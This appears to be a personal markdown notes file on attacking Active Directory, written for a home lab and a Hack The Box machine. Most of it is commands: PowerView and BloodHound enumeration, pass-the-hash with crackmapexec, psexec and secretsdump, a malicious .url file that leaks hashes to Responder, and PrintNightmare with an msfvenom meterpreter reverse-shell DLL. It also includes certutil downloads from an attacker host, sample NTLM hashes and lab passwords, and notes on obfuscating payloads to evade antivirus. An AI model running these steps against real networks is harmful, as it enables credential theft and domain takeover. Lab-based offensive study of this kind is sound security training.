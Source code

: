 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 URL File Attacks**
**5 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal Wc10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```

**HTB:: (see IppSecRules)**
Once creds are found: (IE: active.htb/(\)svc_tgs:GGPStillStandingstrong18)
    + obtain shell access w/ low level user: (Window10 box w/ openvpn, sharphound.ps1)
        `cmd> runas /netonly /user:active.htb\svc_tgs cmd #will run without Windows10 validation specifiy PW as well`
        New cmd prompt comes up with access to machine. see ![runas_cmd](Screenshots/runas_windows.png)    
    + Now because user(svc_tgs) has been authenticated: run bloodhound.
    + **See ![BH_DL_VIA_netonly](Screenshots/Bloodhound_DL.png)**
```
        kali# python3 -m http.server 8080        
        cmd> certutil -urlcache -f http://<attack-ip>:8080/SharpHound.exe SharpHound.exe
        || in browser: http://<attack-ip>:8080 && DL sharphound.exe there. 
``` 

   + Move bloodhound info to Kali machine:
   + Inspect with Neo4j on kali machine:
        See ![bloodhound.zip](Screenshots/create_bloodhound_zip.png)

move file.zip first onto baremetal Desktop then to kali VM.
#make sure sudo neo4j start && sudo bloodhound
import data :: enjoy



## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**
```
apt install crackmapexec \ 
crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' \
```
![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)

`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \ 

![PTH_sam](Screenshots/PTH_sam.png) 

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206` \

![psexec_loud_shell](Screenshots/psexec_shell_noisy.png) \ 

## **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206` \

![secrets](Screenshots/secrets_dump.png)

## **NTLM hash Example:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::
```
**You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes**
        
**4.Example script:**

+ filename: @something.url #Try to accommodate to folder/user name
+ Placed in C:\Share
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attack-ip>\%USERNAME%.icon
IconIndex=1
```
+ `kali$ sudo responder -I eth0 -v`
+ Visit Share fold with domain admin
+ Creds obtained see ![URL_Attack](Screenshots/URL_Attack.png)
+ Also suspectable to ***relaying***

**5 PrintNightmare (CVE-2021-1675)::**
+ Check vuln:
```
$ rpcdump.py @192.168.86.205(DC) | egrep 'MS-RPRN|MS-PAR'::
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
***Vulnerable***

***Host dll***
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack-ip> LPORT=5555 -f dll > shell.dll
$ msfconsole use multi/handler set lhost <attack-ip> LPORT=5555 setpayload windows/x64/meterpreter/reverse_tcp run

***Setup file share***
smbshare.py share 'pwd' (share on present working dir)
***setup UN&PW***
```
+ TODO:: obfuscate .dll for AV bypassing. Try:: [obsfucar](https://medium.com/@s961441/obfuscate-your-application-dll-files-with-obfuscar-a60cb950a9bb)

**6 Mikikatz::**
+Post exploitation of DC
+Mimikatz needs to be on DC
+TODO obfuscate payloads


---
## **References:**
```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
[Ippsec_rules](https://www.youtube.com/watch?v=jUc1J31DNdw)
[URL_attack_writeable_share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
[CVE-2021-1675_1](https://github.com/cube0x0/CVE-2021-1675)
[CVE-2021-1675_2](https://github.com/calebstewart/CVE-2021-1675)
[Mimikatz](https://github.com/gentilkiwi/mimikatz)
```
